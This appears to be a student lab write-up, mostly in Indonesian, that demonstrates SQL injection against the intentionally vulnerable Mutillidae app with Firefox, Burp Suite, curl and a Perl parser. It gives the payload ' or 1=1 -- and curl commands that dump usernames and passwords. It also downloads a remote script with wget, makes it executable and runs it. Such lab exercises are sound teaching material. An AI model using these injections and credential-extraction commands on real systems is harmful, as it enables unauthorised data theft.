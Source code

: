 # Lesson 7 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: Obtain Userlist (Method #1)
1. Obtain Userlist Without Password
   - Pada kolom Textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik View Account
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/.png "Home page")
2. View Results
	- Halaman selanjutnya akan memuat kumpulan data table account yang berupa username, password dan signature
	- Perhatikan string yang ada pada url yang di hightlight '+or+1%3D1--+
3. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
   - Perbedaan string tersebut dengan string yang sebelumnya adalah %27 setelah single quote(')
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/3/result.png "Home page")
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File" 
4. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies2.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")

## Simulate CURL SQL Injection: (Method #2)
1. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
 ```
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```

## Perl Parser
   - Buka terminal, jalankan perintah berikut :
 ```
   cd /root
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt
   cat lesson7.txt
 ```

## Download Parser
   - Buka terminal, jalankan perintah berikut :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
   mv lesson7.pl.TXT lesson7.pl
   chmod 700 lesson7.pl
   ```

## Run Perl Script
   - Buka terminal, jalankan perintah berikut :
   ```
   ./lesson7.pl
   ```
